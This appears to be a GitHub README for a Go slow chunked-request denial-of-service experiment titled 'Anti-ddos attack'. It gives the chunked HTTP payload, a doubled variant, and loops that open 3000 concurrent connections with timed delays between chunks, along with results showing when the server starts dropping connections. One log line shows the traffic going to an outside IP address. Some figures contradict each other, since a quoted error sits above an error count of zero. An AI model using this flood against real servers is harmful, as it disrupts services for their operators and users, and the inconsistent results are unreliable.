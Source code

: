 # Anti-ddos attack

Created with [ProshNad](https://github.com/ProshNad)

## Main idea
Send chunked requests with some timeout. Will connection closed or not? If not, we will try to create 3000+ clients and start them to send those requests

We have such message:

```go
msg := []string{"POST / HTTP/1.1\r\n" +
    "Host: debian\r\n" +
    "Content-Type: text/html\r\n" +
    "Transfer-Encoding: chunked\r\n" +
    "4\r\n",
    "test77776767667\r\n",
    "0\r\n",
    "\r\n",
}
```

All chunks will be sent with timeout between them

## Results

### Send 1 chunked request with timeout between chunks

```go
con, closeFunc := newConn()
defer closeFunc()

_, err := sendChunkedRequest(con, i, time.Second*1)
if err != nil {
    log.Printf("client %d with addr %v got err: %v \n", i, con.LocalAddr(), err)
}
```
Successfully sent

### Send 3000 parallel requests with 2seconds timeout between chunks

```go
for i := 1; i < 3000; i++ {
    wt.Add(1)

    go func(i int) {
        con, closeFunc := newConn()
        defer closeFunc()

        _, err := sendChunkedRequest(con, i, time.Second*2)
        if err != nil {
            errCount++
            log.Printf("client %d with addr %v got err: %v \n", i, con.LocalAddr(), err)
        } else {
            goodCount++
        }

        wt.Done()
    }(i)
}
```
Some of them got error: `client 1325 with addr 192.168.1.83:49905 got err: can't write, err write tcp 192.168.1.83:49905->142.250.201.209:80: write: broken pipe `
It seems the server closed connection. Perhaps it has timeout for getting all request.

```shell
total errCount 0
total goodCount 2999
```

Try to set timeout between creating clients

### Send 3000 parallel requests with 10milliseconds timeout between creating clients

```go
for i := 1; i < 3000; i++ {
    wt.Add(1)

    go func(i int) {
        con, closeFunc := newConn()
        defer closeFunc()

        _, err := sendChunkedRequest(con, i, time.Second*2)
        if err != nil {
            errCount++
            log.Printf("client %d with addr %v got err: %v \n", i, con.LocalAddr(), err)
        } else {
            goodCount++
        }

        wt.Done()
    }(i)
	
	time.Sleep(time.Millisecond*10)
}
```

```shell
total errCount 0
total goodCount 2999
```

### Send 3000 parallel requests with 10milliseconds timeout between creating clients and 10 seconds between chunks
```shell
total errCount 0
total goodCount 2999
```

Let's try to modify our message: we duplicate it.

We have such message:

```go
msg := []string{"POST / HTTP/1.1\r\n" +
    "Host: debian\r\n" +
    "Content-Type: text/html\r\n" +
    "Transfer-Encoding: chunked\r\n" +
    "4\r\n",
    "test77776767667\r\n",
    "0\r\n",
    "\r\n",
	"POST / HTTP/1.1\r\n" +
	"Host: debian\r\n" +
    "Content-Type: text/html\r\n" +
    "Transfer-Encoding: chunked\r\n" +
    "4\r\n",
    "test77776767667\r\n",
    "0\r\n",
    "\r\n",
}
```

### Send 3000 parallel 2x-requests with 2seconds timeout between chunks 

```go
for i := 1; i < 3000; i++ {
    wt.Add(1)

    go func(i int) {
        con, closeFunc := newConn()
        defer closeFunc()

        _, err := sendChunkedRequest(con, i, time.Second*2)
        if err != nil {
            errCount++
            log.Printf("client %d with addr %v got err: %v \n", i, con.LocalAddr(), err)
        } else {
            goodCount++
        }

        wt.Done()
    }(i)
}
```
Some of them got error: `client 1325 with addr 192.168.1.83:49905 got err: can't write, err write tcp 192.168.1.83:49905->142.250.201.209:80: write: broken pipe `
It seems the server closed connection. Perhaps it has timeout for getting all request.

Results
```shell
total errCount 856
total goodCount 2141
```

### Send 3000 parallel 2x-requests with 5seconds timeout between chunks

```go
for i := 1; i < 3000; i++ {
    wt.Add(1)

    go func(i int) {
        con, closeFunc := newConn()
        defer closeFunc()

        _, err := sendChunkedRequest(con, i, time.Second*5)
        if err != nil {
            errCount++
            log.Printf("client %d with addr %v got err: %v \n", i, con.LocalAddr(), err)
        } else {
            goodCount++
        }

        wt.Done()
    }(i)
}
```

Results
```shell
total errCount 2756
total goodCount 234
```

Error count was increased.

### Send 3000 parallel 2x-requests with 10seconds timeout between chunks

Results
```shell
total errCount 2999
total goodCount 0
```

